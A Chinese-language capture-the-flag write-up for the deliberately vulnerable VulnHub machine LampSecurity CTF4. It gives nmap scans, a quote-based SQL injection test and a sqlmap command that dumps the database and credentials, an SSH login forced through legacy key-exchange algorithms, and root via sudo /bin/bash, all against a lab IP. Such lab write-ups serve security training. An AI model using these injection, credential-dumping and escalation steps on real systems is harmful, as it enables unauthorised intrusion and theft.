


LampSecurityCTF4 - CTF
===

> 靶机下载: [镜像](https://download.vulnhub.com/lampsecurity/ctf4.zip)

### nmap 扫描

#### 主机发现

```bash
sudo nmap -sn 192.168.170.0/24
```


#### 端口扫描

```bash
sudo nmap --min-rate 10000 -p- 192.168.170.140
```



---

```bash
sudo nmap -sT -sV -O -p22,25,80,631 192.168.170.140
sudo nmap -sU -p22,25,80,631 192.168.170.140
sudo nmap --script=vuln --min-rate 10000 -p22,25,80,631 192.168.170.140
```


---

#### 收集信息

查看一下 nmap 扫出的 `robots.txt`:

```bash
curl http://192.168.170.140/robots.txt
```


访问网站:


访问 Blog 中的推文, url 为 `http://192.168.170.140/index.html?page=blog&title=Blog&id=2` , 可见是 GET 方式传参, 尝试一下 SQL 注入:

```sql
http://192.168.170.140/index.html?page=blog&title=Blog&id=1'
```

发现网页回显报错了, 说明此处应该存在 **SQL 注入**。


### sqlmap 自动注入

sqlmap 可以将 SQL 注入的流程高度智能化, 自动化。用 sqlmap 扫描该页面:

```bash
sudo sqlmap -u 'http://192.168.170.140/index.html?page=blog&title=Blog&id=2' --dbs --dump --batch
```



可以看见此处为**数字型注入**, sqlmap 使用了时间盲注和布尔盲注, 以及 UNION SELECT。


爆出了 `username:password`, 这可能是网站后台的登录密码, 也可能是 SSH 账密。

### SSH 登录

看一下 `sudo ssh dstevens@192.168.170.140`: 


这个返回说明在 SSH 客户端与服务器协商密钥交换算法时出现不匹配, 导致连接失败。

>   -   **安全策略升级**:
>   现代 SSH 客户端（如 OpenSSH 8.0+）默认禁用 SHA-1 相关的密钥交换算法（如 **diffie-hellman-group1-sha1**），因为这些算法已被证实**存在安全风险**。
>       -   **diffie-hellman-group1-sha1**（DH group1，1024 位，已不安全）
>       -   **diffie-hellman-group14-sha1**（DH group14，2048 位，安全性较低）
>       -   **diffie-hellman-group-exchange-sha1**（动态 DH 组交换）
>
>   -   **服务端配置老旧**:
>   目标服务器（192.168.170.140）的 SSH 服务端（如 OpenSSH 旧版本）仍在使用旧算法，而客户端已不再支持这些算法。

也就是说靶机的 ssh 相比与当前 Kali 机仍在使用旧算法, 这里需要手动指定。由于不知道靶机 ssh 具体用的哪一个, 索性全部列出好了:

```bash
sudo ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 dstevens@192.168.170.140
```

显示还缺少秘钥类型指定:


同理, 如法炮制一下:

```bash
sudo ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 dstevens@192.168.170.140
```

报错: 


搜索了一下, 原因应该在于这两种秘钥是默认禁用的, 那就挨个试试好了:

```bash
sudo ssh -oHostKeyAlgorithms=ssh-rsa -oKexAlgorithms=diffie-hellman-group1-sha1 dstevens@192.168.170.140
```

运气比较好, 直接就进来了, 看来 ssh 和网站后台账户的账密是一致的。接下来收集信息尝试提权:


### 提权

显示 `(ALL)ALL` , 实在是太幸福了, 那直接用 `sudo /bin/bash` 就可以了:


这里已经拿下了靶机。
